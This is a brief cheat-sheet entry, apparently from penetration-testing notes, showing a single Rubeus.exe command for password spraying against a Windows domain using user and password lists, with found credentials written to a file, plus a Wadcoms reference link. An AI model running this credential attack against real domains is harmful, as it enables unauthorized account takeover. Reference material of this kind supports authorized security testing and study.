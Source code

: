 # Rubeus

Search Tag(s): #password-spraying

```
C:\> Rubeus.exe /users:users.lst /passwords:passwords.lst /domain:<domain> /outfile:credentials.txt
```

---
## References

- [Wadcoms: Rubeus Brute](https://wadcoms.github.io/wadcoms/Rubeus-Brute/)
